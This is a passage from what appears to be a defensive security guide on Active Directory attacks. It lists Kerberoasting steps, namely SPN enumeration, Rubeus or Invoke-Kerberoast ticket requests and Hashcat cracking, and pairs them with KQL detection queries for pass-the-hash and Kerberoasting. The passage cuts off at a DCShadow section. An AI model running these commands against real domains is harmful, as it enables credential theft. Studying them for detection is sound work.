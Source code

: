 ```kql
DeviceEvents
| extend AdditionalFieldsParsed = parse_json(AdditionalFields)
| extend Description = tostring(AdditionalFieldsParsed.Description)
| where Description has "sekurlsa::pth"
| project-reorder Timestamp, Description, InitiatingProcessFolderPath, InitiatingProcessAccountName
```

## Kerberoasting
### Steps to perform Kerberoasting
The following steps will demonstrate how to carry out a Kerberoasting attack, which involves requesting service tickets for service accounts and attempting to crack them offline to reveal plaintext passwords: 

1.	Enumerate Service Accounts with SPNs (Service Principal Names)
    - Use PowerShell to list service accounts with SPNs.

    ```powershell
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName | Select-Object SamAccountName, ServicePrincipalName
    ```

2.	Request service tickets (TGS) for these SPNs
    - Use `Rubeus` or `Invoke-Kerberoast` to request service tickets.

    ```cmd
    Invoke-Kerberoast -OutputFormat Hashcat
    Rubeus.exe kerberoast
    ```

3.	Extract and Crack Tickets
    - Extract the tickets and save them to a file.
    - Use a cracking tool like Hashcat to crack the hashes.

    ```cmd
    hashcat -m 13100 -a 0 <hash_file> <wordlist>
    ```

### Detection
As you can imagine, we do need many types of logs to be able to detect malicious events in our environment. Sending events from the security event log is crucial. And as you may see in your production environment there will be a lot of requests for service tickets, but to give you a start, here’s a detection you can start with:

```kql
SecurityEvent
| where EventID == 4769
| where AccountName !endswith "$" // Filter out service or machine accounts
| where ServiceName !endswith "$" // Filter out service accounts
| where TicketEncryptionType == "0x17" // Focus on tickets using RC4 encryption
| project TimeGenerated, AccountName, ServiceName, ClientAddress, TicketEncryptionType
```

## DCShadow Attack
### Steps to perform DCShadow attack
The following steps outline the process of performing a DCShadow attack, where an attacker registers a rogue domain controller and pushes malicious changes into the Active Directory through the replication process:
